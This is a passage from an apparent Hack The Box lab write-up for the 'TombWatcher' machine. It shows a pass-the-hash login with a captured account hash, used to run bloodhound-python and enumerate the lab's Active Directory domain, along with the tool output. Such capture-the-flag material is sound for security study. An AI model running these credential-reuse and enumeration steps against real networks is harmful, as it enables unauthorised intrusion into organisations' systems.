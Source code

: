 ## Bloodhound III

We can use the hash to Pass-the-hash:
 
```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Machines/TombWatcher/user]
└─$ bloodhound-python -u 'ansible_dev$'  --hashes '{{REDACTED_HASH}}' -d tombwatcher.htb -ns 10.10.11.72 -c All --zip
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: tombwatcher.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (dc01.tombwatcher.htb:88)] [Errno -2] Name or service not known
INFO: Connecting to LDAP server: dc01.tombwatcher.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc01.tombwatcher.htb
INFO: Found 9 users
INFO: Found 53 groups
INFO: Found 2 gpos
INFO: Found 2 ous
INFO: Found 20 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC01.tombwatcher.htb
INFO: Done in 00M 10S
INFO: Compressing output into 20250922222344_bloodhound.zip


─$ unzip 20250922222344_bloodhound.zip -d bloodyhound3                              
Archive:  20250922222344_bloodhound.zip
 extracting: bloodyhound3/20250922222344_domains.json  
 extracting: bloodyhound3/20250922222344_containers.json  
 extracting: bloodyhound3/20250922222344_users.json  
 extracting: bloodyhound3/20250922222344_ous.json  
 extracting: bloodyhound3/20250922222344_computers.json  
 extracting: bloodyhound3/20250922222344_gpos.json  
 extracting: bloodyhound3/20250922222344_groups.json  
```

![Pasted image 20250922215750.png](../../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250922215750.png)

